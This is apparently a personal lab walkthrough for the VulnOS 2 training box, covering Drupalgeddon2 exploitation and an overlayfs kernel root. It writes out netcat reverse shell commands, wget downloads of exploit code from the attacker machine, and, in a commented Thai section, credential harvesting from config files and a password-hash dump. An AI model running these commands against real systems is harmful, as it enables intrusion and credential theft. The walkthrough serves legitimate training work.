


# OSCP Vulnhub Set 1 - VulnOS 2

Lab link: http://ccmtlab.ccmt.home.arpa:8888/user/missions/boxes?uuid=aa1ecc4c-0c78-454d-b4d1-0d15dbff0161

Target IP: 10.101.85.18

---

## Scanning and Enumeration

### Nmap

Scan all popular ports with OS, version, and script detection.

```
nmap -Pn -A 10.101.85.18
```

The scan revealed three open ports consisting of SSH, HTTP, and IRC services.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/08]
└─$ nmap -Pn -A 10.101.85.18
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-26 02:08 -0400
Nmap scan report for 10.101.85.18
Host is up (0.0032s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|   256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: VulnOSv2
|_http-server-header: Apache/2.4.7 (Ubuntu)
6667/tcp open  irc     ngircd
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.11 - 4.9
Network Distance: 2 hops
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT     ADDRESS
1   4.85 ms 10.101.55.1
2   2.71 ms 10.101.85.18

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.42 seconds
```

---

### HTTP

Accessed the root web directory and found a hyperlink leading to another page.



Following the link redirects to a website representing a company named JABC.



Scanned the web application directory to identify the underlying technologies.

```
whatweb http://10.101.85.18/jabc
```

The scan output reveals that the website is running Drupal 7.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/08]
└─$ whatweb http://10.101.85.18/jabc
http://10.101.85.18/jabc [301 Moved Permanently] Apache[2.4.7], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.101.85.18], RedirectLocation[http://10.101.85.18/jabc/], Title[301 Moved Permanently]
http://10.101.85.18/jabc/ [200 OK] Apache[2.4.7], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.101.85.18], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.5.9-1ubuntu4.14], Script[text/javascript], Title[JABC | Just Another Bioware Company], UncommonHeaders[x-generator], X-Powered-By[PHP/5.5.9-1ubuntu4.14]
```

---

## Exploitation

### Vulnerability Search

Searchsploit can be used to find potential vulnerabilities for Drupal 7.

```
searchsploit Drupal 7
```

There are many options here, so select the most relevant one.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/08]
└─$ searchsploit Drupal 7

...[snip]...

Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                 | php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                  | php/webapps/44355.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)       | php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)       | php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)          | php/webapps/35150.php
Drupal 7.12 - Multiple Vulnerabilities                                            | php/webapps/18564.txt
Drupal 7.x Module Services - Remote Code Execution                                | php/webapps/41564.php
Drupal < 4.7.6 - Post Comments Remote Command Execution                           | php/webapps/3313.pl
Drupal < 5.1 - Post Comments Remote Command Execution                             | php/webapps/3312.pl
Drupal < 5.22/6.16 - Multiple Vulnerabilities                                     | php/webapps/33706.txt
Drupal < 7.34 - Denial of Service                                                 | php/dos/35415.txt
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)          | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)          | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)       | php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Executi | php/webapps/44449.rb

...[snip]...
```

---

### Executing Exploit 44449

Choose the Drupalgeddon2 exploit. First, copy the script to the current folder.

```
searchsploit -m php/webapps/44449.rb
```

Then, run the exploit against the target to get an initial shell.

```
ruby 44449.rb http://10.101.85.18/jabc/
```

I got a shell.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/08]
└─$ ruby 44449.rb http://10.101.85.18/jabc/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.101.85.18/jabc/

...[snip]...

VulnOSv2>> 
```

---

### Catching a Better Reverse Shell

To get a better connection, open a listener on the Kali machine.

```
nc -lvnp 1234
```

Then, trigger a reverse shell from the target.

```
nc -e /bin/sh 10.101.55.75 1234
```

The listener catches the incoming connection.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/08]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.101.55.75] from (UNKNOWN) [10.101.85.18] 34472
```

Finally, upgrade it to a fully interactive TTY shell.

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

### System Enumeration

The target machine is running Ubuntu 14.04.4 with kernel version 3.13.0-24-generic.

```
www-data@VulnOSv2:/$ uname -a
uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
www-data@VulnOSv2:/$ cat /etc/os-release
cat /etc/os-release
NAME="Ubuntu"
VERSION="14.04.4 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.4 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```

Searchsploit can be used to find matching local privilege escalation exploits.

```
searchsploit Ubuntu 14.04 Kernel 3.13 
```

The search returns several options. Select the exploit that exactly matches both the Ubuntu version and the kernel version range.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/08]
└─$ searchsploit Ubuntu 14.04 Kernel 3.13 
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local P | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local P | linux/local/37293.txt
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64) - 'CONFIG_X86_X32=y' Local Pri | linux_x86-64/local/31347.c
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.10) - 'CONFIG_X86_X32' Arbitrary Write (2)   | linux/local/31346.c

...[snip]...
```

---

### Executing Exploit 37292

The overlayfs exploit (37292.c) is a perfect match. First, copy the exploit script to the current directory.

```
searchsploit -m linux/local/37292.c
```

Set up a Python HTTP server on the attacker machine to host the file.

```
python3 -m http.server 8000
```

On the target machine, navigate to the tmp directory and download the exploit.

```
cd /tmp
wget http://10.101.55.75:8000/37292.c
```

Compile the C code using gcc and run the compiled binary.

```
gcc 37292.c -o exploit
./exploit
```

The exploit executes successfully, granting root access.

```
www-data@VulnOSv2:/tmp$ gcc 37292.c -o exploit
gcc 37292.c -o exploit
www-data@VulnOSv2:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id    
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

<!-- ---

## Exploitation

### CVE-2018-7600

หา Exploit ของ Drupal 7 แล้วเจอ GitHub นี้

```
https://github.com/pimps/CVE-2018-7600/tree/master
```

โหลดเข้า Kali

```
wget https://raw.githubusercontent.com/pimps/CVE-2018-7600/refs/heads/master/drupa7-CVE-2018-7600.py
```

เปิด Listerrner เตรียม Reverse Shell

```
rlwrap nc -lvp 443
```

หาสคริป Reverse Shell ในนี้

```
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```

รันสคริป

```
python3 drupa7-CVE-2018-7600.py http://10.101.85.18/jabc/ -c "nc -e /bin/sh 10.101.55.75 443"
```

กลับไปดูที่ Listener มันเชื่อมสำเร็จแล้ว

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/08]
└─$ rlwrap nc -lvp 443
listening on [any] 443 ...
10.101.85.18: inverse host lookup failed: Unknown host
connect to [10.101.55.75] from (UNKNOWN) [10.101.85.18] 56367
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Privilege Escalation

### System Enumeration

Spawn Shell

```
python -c 'import pty;pty.spawn("/bin/bash");' 
```

หา Config file

```
find /var/www/html -name '*.php' | grep config
```

เจอสามไฟล์

```
www-data@VulnOSv2:/$ find /var/www/html -name '*.php' | grep config
find /var/www/html -name '*.php' | grep config
/var/www/html/jabcd0cs/config.php
/var/www/html/jabcd0cs/includes/smarty/plugins/function.config_load.php
/var/www/html/jabcd0cs/config-sample.php
```

อ่านไฟล์แรก

```
cat /var/www/html/jabcd0cs/config.php
```

เจอ mysql username password

```
www-data@VulnOSv2:/$ cat /var/www/html/jabcd0cs/config.php
cat /var/www/html/jabcd0cs/config.php
<?php
/*
config.php - OpenDocMan database config file
Copyright (C) 2011 Stephen Lawrence Jr.

This program is free software; you can redistribute it and/or
modify it under the terms of the GNU General Public License
as published by the Free Software Foundation; either version 2
of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program; if not, write to the Free Software
Foundation, Inc., 59 Temple Place - Suite 330, Boston, MA  02111-1307, USA.
*/

// Eliminate multiple inclusion of config.php
if( !defined('config') )
{
    define('config', 'true', false);

// config.php - useful variables/functions

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for [OpenDocMan */
define('DB_NAME', 'jabcd0cs');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASS', 'toor');

/** MySQL hostname */
/* The MySQL server. It can also include a port number. e.g. "hostname:port" or a path to a 
 * local socket e.g. ":/path/to/socket" for the localhost.  */
define('DB_HOST', 'localhost');

/**
 * Prefix to append to each table name in the database (ex. odm_ would make the tables
 * named "odm_users", "odm_data" etc. Leave this set to the default if you want to keep
 * it the way it was. If you do change this to a different value, make sure it is either
 * a clean-install, or you manually go through and re-name the database tables to match.
 * @DEFAULT 'odm_'
 * @ARG String
 */
$GLOBALS['CONFIG']['db_prefix'] = 'odm_';

/*** DO NOT EDIT BELOW THIS LINE ***/


/** Absolute path to the OpenDocMan directory. */
if ( !defined('ABSPATH') )
        define('ABSPATH', dirname(__FILE__) . '/');
}
```

เข้า mysql

```
mysql -uroot -ptoor
```

พบรหัสของ webmin

```
mysql> use mysql;
use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupal7            |
| jabcd0cs           |
| mysql              |
| performance_schema |
| phpmyadmin         |
+--------------------+
6 rows in set (0.00 sec)

mysql> use jabcd0cs;
use jabcd0cs;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select * from odm_user;
select * from odm_user;
+----+----------+----------------------------------+------------+-------------+--------------------+-----------+------------+---------------+
| id | username | password                         | department | phone       | Email              | last_name | first_name | pw_reset_code |
+----+----------+----------------------------------+------------+-------------+--------------------+-----------+------------+---------------+
|  1 | webmin   | b78aae356709f8c31118ea613980954b |          2 | 5555551212  | webmin@example.com | min       | web        |               |
|  2 | guest    | 084e0343a0486ff05530df6c705c8bb4 |          2 | 555 5555555 | guest@example.com  | guest     | guest      | NULL          |
+----+----------+----------------------------------+------------+-------------+--------------------+-----------+------------+---------------+
2 rows in set (0.00 sec)
```

ถอดรหัส

```
echo "b78aae356709f8c31118ea613980954b" > hash.txt
บลาๆๆ
```

รหัสคือ

```
บลาๆๆ
```

เข้า webmin

```
su webmin
webmin1980
```

โหลด linenum

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

host เครื่องตัวเอง เตรียมส่งให้ target

```
python3 -m http.server 8000
```

โหลดเข้าเครื่อง terget

```
cd /tmp
curl -O http://10.101.55.75:8000/LinEnum.sh
chmod 777 LinEnum.sh
./LinEnum.sh
```

kernel คือ 3.13

```
...[snip]...

### SYSTEM ##############################################
[-] Kernel information:
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux

...[snip]...
``` -->

<!-- ### JOBS/TASKS ##########################################
[-] Cron jobs:
-rw-r--r-- 1 root root  722 Feb  9  2013 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x   2 root root 4096 Apr 16  2016 .
drwxr-xr-x 102 root root 4096 May  8 04:56 ..
-rw-r--r--   1 root root  124 Oct 16  2014 drupal7
-rw-r--r--   1 root root  510 Oct 28  2015 php5
-rw-r--r--   1 root root  102 Feb  9  2013 .placeholder

...[snip]...

root      1037  0.0  0.0   3052   900 ?        Ss   May06   0:04 cron

...[snip]...

[-] Can we read/write sensitive files:
-rw-r--r-- 1 root root 1387 Apr 25  2016 /etc/passwd
-rw-r--r-- 1 root root 802 May  2  2016 /etc/group
-rw-r--r-- 1 root root 665 Feb 20  2014 /etc/profile
-rw-r----- 1 root shadow 1059 Nov  8  2024 /etc/shadow

...[snip]...
``` -->

